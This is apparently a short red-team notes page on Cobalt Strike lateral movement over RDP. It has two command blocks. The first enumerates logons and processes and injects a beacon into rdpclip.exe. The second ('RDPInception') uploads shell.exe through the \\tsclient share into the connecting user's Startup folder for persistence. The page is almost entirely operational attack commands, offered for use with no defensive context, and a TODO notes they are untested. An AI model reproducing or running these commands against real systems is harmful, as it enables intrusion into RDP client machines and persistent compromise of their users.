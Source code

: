 # Cobalt Strike

Search Tag(s): #lateral-movement

TODO: Convert this with other C2 frameworks including other sections and test this

## RDP Process Injection

```
beacon> net groups

beacon> net logons

beacon> ps

beacon> inject <rdpclip.exe_pid> x64 <listener>
```

## RDPInception

```
beacon> net logons

beacon> ps

beacon> inject <rdpclip.exe_pid> x64 <listener>

beacon> ls \\tsclient\c

beacon> upload shell.exe \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

---
## References

- [[Startup|Startup Persistence]]

- [Hacktricks: RDP Sessions Abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/rdp-sessions-abuse)